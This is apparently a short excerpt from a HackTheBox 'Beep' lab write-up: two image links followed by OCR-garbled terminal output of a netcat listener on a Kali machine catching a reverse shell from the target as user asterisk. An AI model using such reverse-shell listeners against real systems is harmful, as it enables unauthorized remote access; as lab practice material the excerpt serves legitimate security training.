 ![](Maszyny/Linux/Beep/Pasted%20image%2020210811023018.png)

[
-(kali kali)-[/htb/beep]
rlwrap nc - vnp 9000
listening on [any] 9000 ...
connect to [10.10.14.19] from (UNKNOWN) (10.10.10.7] 57781
SOCKET: Shell has connected! PID: 1088
id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
